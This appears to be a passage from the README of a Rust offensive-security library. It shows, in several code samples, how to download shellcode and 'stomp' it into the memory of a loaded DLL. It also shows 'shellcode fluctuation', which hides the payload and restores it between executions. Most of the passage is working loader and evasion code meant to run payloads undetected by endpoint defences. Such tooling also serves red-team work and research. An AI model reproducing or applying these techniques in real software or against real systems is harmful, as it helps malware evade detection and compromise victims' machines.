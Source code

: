 ```rust
let payload_content = download_function();
let my_dll = dinvoke_rs::dinvoke::load_library_a("somedll.dll");
let module = dinvoke_rs::overload::managed_module_stomping(&payload_content, 0, my_dll);

match module {
     Ok(x) => println!("The shellcode has been written to 0x{:X}.", x.1),
     Err(e) => println!("An error has occurred: {}", e),      
}
```

You can also specify the exact location where you want the shellcode to be stomped to by passing the address as the second parameter:

```rust
let payload_content = download_function();
let my_dll = dinvoke_rs::dinvoke::load_library_a("somedll.dll");
let my_big_enough_function = dinvoke_rs::dinvoke::get_function_address(my_dll, "somefunction");
let module = overload::managed_module_stomping(&payload_content, my_big_enough_function, 0);

match module {
     Ok(x) => println!("The shellcode has been written to 0x{:X}.", x.1),
     Err(e) => println!("An error has occurred: {}", e),      
}
```

Finally, you can allow Dinvoke to automatically decide the address where the shellcode will be stomped to. This is done by iterating over the Exception data of all loaded modules until finding a suitable function. This option may bring unexpected behaviours, so I do not really recommend it unless you don't have other option.
```rust
let payload_content = download_function();
let module = dinvoke_rs::overload::managed_module_stomping(&payload_content, 0, 0);

match module {
    Ok(x) => println!("The shellcode has been written to 0x{:X}.", x.1),
    Err(e) => println!("An error has occurred: {}", e),      
}
```

Once the shellcode has been stomped, you can use dmanager crate to hide/restomp your shellcode, allowing to perfom shellcode fluctuation:

```rust
let payload_content = download_function();
let my_dll = dinvoke_rs::dinvoke::load_library_a("somedll.dll");
let overload = dinvoke_rs::overload::managed_module_stomping(&payload_content, 0, my_dll).unwrap();
let mut manager = dinvoke_rs::dmanager::Manager::new();
let _r = manager.new_shellcode(overload.1, payload_content, overload.0).unwrap(); // The manager will take care of the fluctuation process
let _r = manager.hide_shellcode(overload.1).unwrap(); // We restore the memory's original content and hide our shellcode
 ... 
let _r = manager.stomp_shellcode(overload.1).unwrap(); // When we need our shellcode's functionality, we restomp it to the same location so we can execute it
let run: unsafe extern "system" fn () = std::mem::transmute(overload.1);
run();
let _r = manager.hide_shellcode(overload.1).unwrap(); // We hide the shellcode again
```

